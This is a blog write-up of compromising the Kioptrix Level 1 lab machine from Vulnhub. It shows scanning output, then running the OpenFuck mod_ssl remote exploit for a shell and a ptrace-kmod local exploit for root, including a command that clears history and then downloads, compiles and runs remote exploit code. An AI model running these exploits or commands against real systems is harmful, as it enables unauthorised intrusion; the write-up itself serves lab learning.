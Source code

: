 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 1"
date:   2017-04-18 21:50:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix1.jpg
  credit:
  creditlink:
---
```


The Kioptrix series was created by [@loneferret](https://twitter.com/loneferret) as a way of learning about different variations of linux. They are also designed to be very similar to those faced in the OSCP exam.  Since I'm eventually hoping to take this certification, this looked like a good candidate to learn from as they have been described as 'easy' in the sense that there aren't too many nasty traps.  The first to try is of course [Kioptrix: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 

![](/assets/images/Kioptrix1/1.png)

As always, find the IP's of the box we want to target to ensure it's working.

{% highlight bash %}
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.132	00:0c:29:b7:d4:16	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.858 seconds (137.78 hosts/sec). 3 responded
{% endhighlight %}

Now lets do a port scan to see what services are open.

{% highlight bash %}
root@kali:~# nmap -A 192.168.137.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-18 21:48 BST
Nmap scan report for 192.168.137.132
Host is up (0.00031s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1026/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-04-18T20:50:46+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:B7:D4:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 192.168.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds
{% endhighlight %}

Browsing to the http server, we just a pretty simple welcome page, with not too much of interest.

![](/assets/images/Kioptrix1/2.png)

I ran dirbuster hoping there was something more interesting on the server but this didn't turn up much. 

{% highlight bash %}
dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 200
Dir found: /manual/ - 200
Dir found: /manual/mod/ - 200
File found: /test.php - 200
Dir found: /icons/small/ - 200
Dir found: /doc/ - 403
Dir found: /usage/ - 200
File found: /usage/usage_201704.html - 200
File found: /usage/usage_200909.html - 200
{% endhighlight %}

So after a lot of fruitless searching, I ended up looking for an Apache 1.3 exploit, hoping to use that as a route onto the server, but there was nothing that looked to give me a way onto the server.  I'd seen references to mod_ssl on a couple pages (in fact it's shown in the nmap scan too), so I tried that.

{% highlight bash %}
root@kali:~# searchsploit mod_ssl 2.8
{% endhighlight %}
* Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow  
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit 
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Exploit 

Lo and behold we have three exploits available, with OpenFuckV2 looking to be a way to get us onto the server.

So I downloaded OpenFuckV2 and compiled it according to the changes made [here](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/).  

{% highlight bash %}
gcc -o OpenFuck 764.c -lcrypto
{% endhighlight %}

Unfortunately, upon compiling, I got this error.

{% highlight bash %}
764.c:646:24: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function)
  unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
                        ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘read_ssl_packet’:
764.c:848:19: error: ‘SSL2_MT_ERROR’ undeclared (first use in this function)
    if ((buf[0] == SSL2_MT_ERROR) && (rec_len == 3)) {
                   ^~~~~~~~~~~~~
764.c:848:19: note: each undeclared identifier is reported only once for each function it appears in
764.c: In function ‘get_server_hello’:
764.c:980:16: error: ‘SSL2_MT_SERVER_HELLO’ undeclared (first use in this function)
  if (*(p++) != SSL2_MT_SERVER_HELLO) {
                ^~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_master_key’:
764.c:1072:10: error: dereferencing pointer to incomplete type ‘EVP_PKEY {aka struct evp_pkey_st}’
  if (pkey->type != EVP_PKEY_RSA) {
          ^~
764.c: In function ‘get_server_verify’:
764.c:1149:16: error: ‘SSL2_MT_SERVER_VERIFY’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_VERIFY) {
                ^~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_finished’:
764.c:1161:11: error: ‘SSL2_MT_CLIENT_FINISHED’ undeclared (first use in this function)
  buf[0] = SSL2_MT_CLIENT_FINISHED;
           ^~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘get_server_finished’:
764.c:1174:16: error: ‘SSL2_MT_SERVER_FINISHED’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_FINISHED) {
                ^~~~~~~~~~~~~~~~~~~~~~~
{% endhighlight %}

So, I'm including the error log here in case you stumbled across this page while googling.  The reason it seems, according to an unknown user in the comments of [this writeup](http://poc-hack.blogspot.co.uk/2012/08/kioptrix-hacking-challenge-level-1-part.html), is that the wrong version of libssl is installed.  This is fixed by installing an older version.

{%highlight bash %}
apt-get install libssl1.0-dev
{% endhighlight %}

So now we need to specify the shellcode we want to send depending on the install.  If you run the binary you'll see a list of all the possibles, but two stand out considering the known apache version and that there is a reference to Red Hat in the nmap scan and peppered around some random exposed files. From this we know that we want 0x6a or 0x6b.  0x6a yielded nothing but 0x6b got us a shell.

{%highlight bash%}
root@kali:~/Documents/Kioptrix1# ./OpenFuck 0x6b 192.168.137.132 443 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc550
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--17:22:06--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$ 
{% endhighlight %}

So the ptrace-kmod.c file didn't work for some reason.  Not having actually read it I didn't realise this was what allowed us to get root so I spent a much longer time than I want to admit trying to find some other vulnerabilities.  After going to back to square one however, I realised this was what would help us get root on the box.  So I downloaded it to the box, compiled and ran.

{%highlight bash%}
bash-2.05$ gcc -o ptrace ptrace-kmod.c
gcc -o ptrace ptrace-kmod.c
bash-2.05$ ./ptrace
./ptrace
[+] Attached to 1329
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
{%endhighlight%}

Boom we have root!  All in all this is quite a simple box but really helped me bridge that gap in understanding how to use an exploit to compromise a server and actually going about it and troubleshooting issues along the way.  I'd highly recommend this, if like me you are new to security and looking to learn more about actually using exploits and information gathering to compromise a system.
